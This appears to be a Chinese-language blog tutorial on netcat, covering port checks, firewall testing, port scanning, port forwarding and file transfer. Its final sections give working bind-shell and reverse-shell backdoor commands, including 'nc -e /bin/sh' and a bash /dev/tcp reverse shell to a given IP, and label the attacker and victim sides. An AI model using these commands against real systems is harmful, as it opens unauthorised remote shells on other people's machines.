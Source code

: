 ```yaml
---
title: netcat基本使用
date: 2019-11-30 23:59:47
tags: linux
---
```


几种常用的方式。
<!--more-->

### 测试某个远程主机的监听端口是否可达

两种情况：

- 端口没有在监听；
- 在监听，被防火墙阻挡；

```shell
nv -nv -w 3 10.18.0.222 80
-w: 设置一个超时
-n: 不解析域名
-v：verbose
如果是udp的话加选项：‘-u’
```

### 判断防火墙是否“允许 or 禁止”某个端口

假设你在配置防火墙，禁止了某个端口，现在想判断配置是否生效。  
在主机运行：

```shell
nc -lv -p 8080
```

监听这个端口。
从另一台主机连接：

```shell
nc 10.10.10.10 8080
```

如果是udp的话，两边都要加-u选项。

在默认情况下，nc 开启 listen 模式充当服务端，在接受【第一次】客户端连接之后，就会把监听端口关闭。如果你想要让 nc 始终监听模式，使之能【重复】接受客户端发起的连接，可以追加 -k 选项。

### 做一个简单的端口扫描(也可以作为单个端口的扫描)

```shell
nc  -znv 199.19.111.30 1-1024
-z：开启“zero-I/O 模式”。该模式指的是：nc 只判断某个监听端口是否能连上，连上后不与对端进行数据通讯。
```

**说明：优化输出**

```shell
nc -znv x.x.x.x 1-1024  2>&1 | grep succeeded
```

上述命令中的 2>&1 用来把【stderr】合并到【stdout】

### 基于 nc 的端口转发（Port Forward)

1. 创建命名管道：  
`mkfifo nc_pipe`  

2. 同时启动两个nc:

```shell
nc -l -p 1234 < nc_pipe | nc 127.0.0.1 5678 > nc_pipe
```

运行上述命令之后，就可以把本机的 1235 端口重定向到本机的 5678 端口。  
持续开启用‘-k’选项。

### 用nc传输文件

在接收端执行：

```shell
nc -l -p 8888 > filename
```

在发送端执行：

```shell
nc 10.18.0.1 8888 < filename
```

用nc命令传输文件相当于直接在裸的tcp层面传输，没有应用层，如果文件大或者数量多，性能优势会很明显。

### 用nc开启被动连接型后门

在被攻击者端：

```shell
nc -l -p 8888 -e /bin/sh
```

在攻击者端：

```shell
nc 10.18.0.1 8888
```

### 用nc开启主动连接型后门

服务端客户端对调
在攻击者端：

```shell
nc -lkp 8888
```

在被攻击者端：

```shell
nc -e /bin/sh 10.18.0.222 8888
```

或者：

```shell
bash -i >& /dev/tcp/10.18.0.222/8888 0>&1
```

这条命令连nc都不需要。
